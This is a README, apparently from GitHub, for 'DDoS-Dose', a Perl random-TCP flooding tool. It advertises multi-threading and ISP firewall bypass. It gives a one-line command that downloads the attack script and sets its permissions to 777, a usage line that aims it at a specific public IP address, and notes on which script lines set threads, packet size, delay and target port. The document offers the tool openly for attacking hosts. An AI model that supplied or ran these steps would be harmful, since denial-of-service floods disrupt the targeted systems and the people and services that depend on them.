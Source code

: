 
# Script for DDoS-Dose !

## Features

- Generate Random TCP Traffic
- To Target Port & from Random Port
- Require HPC (High Performance Computing) Server
- Can bypass some ISP Firewalls
- Language: Perl
- multi-threads
- Configure threads, packet size, number of packet, delay, iterations
## Installation

One Line Setup for Debian Based distro ~ Ubuntu, Debian

```bash
  apt update -y && apt install perl -y && apt install wget -y && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer4/TCP/random-tcp%20%7C%20ID%3AA3/random-tcp.pl && chmod 777 *

```
## Usage

```
perl random-tcp.pl 162.241.27.65
perl random-tcp.pl <target ip> 
```
```
- This script can be configured with number of threads (line 33)
- This script can be configured with size of packets (line 10)
- This script can be configured with delay b/w packets (line 9)
- This script can be configured with target PORT (line 16)
- Can adjust time by "timeout 30" command,
```

## Authors

- [@cyberceros](https://www.github.com/cyberceros)
## Feedback

If you have any feedback, please reach out to us at n@dultr.in

